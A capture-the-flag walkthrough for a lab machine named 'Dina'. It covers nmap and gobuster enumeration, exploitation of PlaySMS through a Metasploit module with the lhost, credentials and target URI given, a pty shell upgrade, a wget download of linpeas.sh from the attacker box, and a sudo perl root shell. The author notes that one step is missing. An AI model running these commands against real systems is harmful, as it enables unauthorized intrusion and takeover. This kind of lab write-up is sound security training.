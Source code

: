 # Metasploit CTF [Dina]
## Enumeration

**Nmap Port Scan:**

- **Command:**
    
    ```powershell
    nmap -A -oN scan <MACHINE-IP>
    ```
    
- **Results:**
    
    ![Untitled](https://curious-cloth-153.notion.site/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F95fa80c9-fc09-41c7-a313-856f4155a90a%2F8d6c3479-7eac-490b-87fb-bf3000899181%2FUntitled.png?table=block&id=476ec69f-2b81-4aca-a692-b9047e63cdb3&spaceId=95fa80c9-fc09-41c7-a313-856f4155a90a&width=1390&userId=&cache=v2)
    

**Service Versions Found:** 

- **80 | Apache | 2.2.22**

**Gobuster Scan:**

- **Command:**
    
    ```powershell
    gobuster dir -u http://<MACHINE-IP-HERE> -w /usr/share/wordlists/dirb/big.txt
    ```
    
- **Results:**
    
    ```powershell
    /.htpasswd
    /.htaccess
    /cgi-bin/
    /index
    /nothing
    /robots.txt
    /robots
    /secure
    /server-status
    /tmp
    /uploads
    ```
    

**Source Code:**

<aside>
💡 inspect element in the “/nothing” web directory to find a list of secret passwords, make a wordlist with those passwords on your kali box.

</aside>

_missing jump between password list and playsms exploit

## Exploitation

**Exploit Found:**

[PlaySMS - index.php Unauthenticated Template Injection Code Execution (Metasploit)](https://www.exploit-db.com/exploits/48335)

**Metasploit Module:**

- **Payload**
    
    ```jsx
    use exploit/multi/http/playsms_uploadcsv_exec
    ```
    
- **Options**
    
    ```jsx
    set rhost 192.168.43.219
    set lhost 192.168.43.171
    set username touhid
    set password diana
    set targeturi /SecreTSMSgatwayLogin
    ```
    

**Navigation:**

- **Get a shell on the machine**
    
    ```jsx
    shell
    ```
    

- **Upgrade to an interactive shell**
    
    ```jsx
    python -c 'import pty; pty.spawn("/bin/sh")'
    ```
    

## Privilege Escalation

**Linpeas is in the “~/Tools” Directory of all the machines**

https://github.com/carlospolop/PEASS-ng/releases

**Linpeas:**

- **Host a Python Server from “~/Tools” on the Kali Box**
    
    ```jsx
    python3 -m http.server 80
    ```
    
- **Download Linpeas on to the vulnerable machine**
    
    ```jsx
    CD into Uploads Directory
    ```
    
    ```jsx
    wget http://<KALI-IP>/linpeas.sh
    ```
    
    ```jsx
    chmod +x linpeas.sh
    ```
    
    ```jsx
    ./linpeas.sh
    ```
    

<aside>
💡 We find that Perl has Sudo privileges without having to authenticate as a Sudo user “/user/bin/perl”

</aside>

[perl
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/perl/)

**Get a root shell:**

```jsx
sudo perl -e 'exec "/bin/bash";'
```

**PWN3D!**
